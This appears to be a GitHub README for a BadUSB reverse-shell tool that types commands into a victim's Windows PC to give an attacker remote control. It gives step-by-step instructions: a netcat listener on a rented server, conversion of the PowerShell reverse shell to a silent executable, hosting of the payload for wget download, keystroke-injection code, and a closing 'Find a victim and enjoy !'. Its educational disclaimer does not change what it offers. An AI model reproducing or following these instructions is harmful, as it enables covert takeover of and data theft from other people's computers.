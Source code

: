 # BadUSB_reverseShellInjector
# Warning ⚠️
Everything in this repository is **strictly** for educational purposes. Notice **I am not responsible** for stolen data. **You are responsible** for your actions using developed script for **BadUSB**.
# About ℹ️
This **script** allows you to take **control** of a **PC** with **reverse shell** attack.
### NB n°1 (for arduino BadUSB)
Sometimes, you will see something like this : 
``` 
Keyboard.press(KEY_LEFT_CTRL);
Keyboard.press(KEY_LEFT_ALT);
Keyboard.press(173);
Keyboard.releaseAll(); 
```
This is only to write these characters : "@", "\\". But it depends on the computer's layout, so adapt these characters thanks to this [site](https://www.csee.umbc.edu/portal/help/theory/ascii.txt) and the sequence you actually use to wirte these characters with your keyboard. (or switch the keyboard layout to French).
### US Layout
For US layout you only have to replace by this for "\\" :
```
Keyboard.press(92);
Keyboard.releaseAll();
```
And by this for "@" :
```
Keyboard.press(64);
Keyboard.releaseAll();
```
### NB n°2
You can customize the **delay** according to the speed in which you plug the **BadUSB**.
### NB n°3
When you plug the BadUSB in a PC you  have to wait for the caps lock to flash to unplug it.
# Getting Started ✔️
## Requirments
1. Have a **BadUSB**.

2. Install **Arduino software** [here](https://www.arduino.cc/en/software) (if you use a BadUSB which is based on arduino);

3. [Have an ssh server](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector#linode);

4. [Download PS2EXE](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector#ps2exe);

5. Have a victim with **Windows OS** installed in his PC;
## Linode
1. Create an account [here](https://www.linode.com/);

2. Go to create, linode;

3. Select Ubuntu 18.04 LTS distribution;

4. Select the region closest to where you live;

5. Select shared CPU, Nanode 1GB;

6. Choose your server label and password;

7. Create linode;

8. Now open a terminal and type the ssh access command (ssh root@your_ssh_ip_adress);

9. You are now connected to your ssh server;

10. To make your ssh server always listening type this commands :
```
screen
nc -lnvp 87 -s your_ssh_ip_adress
CTRL + A
D
```
11. Your ssh server is now listening and you can exit;

12. To resume your listening screen, just type :
```
screen -r
```
## PS2EXE
1. Go in this [link](https://github.com/MScholtes/PS2EXE) and click on green button on right top of main page. Then click on "Download Zip" and extract zip file.

2. Start powershell as admin and type the following commands :
```
Set-Loction $env:HOMEPATH\Downloads\PS2EXE-master\Win-PS2EXE
Set-ExecutionPolicy Unrestricted -Force
Import-Module ps2exe
win-ps2exe
```

3. * Select source file (the file you want to convert).
   * Select target file (the directory where you want your file to be).
   * Select icon file (you can download some icons [here](https://iconarchive.com/)).
   * Check Supress output and Suppress error output.
   * Then click on compile button to finish the convertion.
## Install
1. Download this repository;

**Linux :**
```
git clone https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector
cd BadUSB_reverseShellInjector
```
**Windows :** Click on green button on right top of main page. Then click on "Download Zip" and extract zip file.

2. Replace LINK in [.txt](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector/blob/main/BadUSB_reverseShellInjector.txt) at line 28 or in [.ino](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector/blob/main/BadUSB_reverseShellInjector.ino) at line 93;

3. Replace LINK [here](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector/blob/main/script.ps1) at line 8 and replce IP and PORT [here](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector/blob/main/reverseShell.ps1) at line 3;

4. [Convert reverseShell.ps1 file in .exe file](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector#ps2exe);

5. Put the .ino or .txt file in your **BadUSB**;

5. Find a victim and enjoy !
## Requirments for victim PC
* Turn off caps lock.
* Switch the keyboard layout to French (or adapt the code according to your layout).
# How to set a link for wget the script ⬇️
## Dropbox
1. Create a dropbox account [here](https://www.dropbox.com);

2. Upload your file;

3. Copy the link of the file and change ?dl=0 by ?dl=1;

4. You will get a link like this : https://dropbox.com/s/link/YOURFILE?dl=1;

5. Now put this link in the [.ino](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.ino) or [.txt](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.txt) file;
## Github
1. Create a Github account [here](https://github.com/signup);

2. Create a public repository;

3. Upload your file;

4. Go to your file page and click on RAW button;

5. Copy the RAW page link and put it in the [.ino](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.ino) or [.txt](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.txt) file;
## One Drive
1. Create a One Drive account [here](https://signup.live.com/signup);

2. Upload your file file;

3. Follow this [tutorial](https://mangolassi.it/topic/19276/how-to-configure-a-onedrive-file-for-use-with-wget)

4. Put the link you got in the [.ino](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.ino) or [.txt](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.txt)
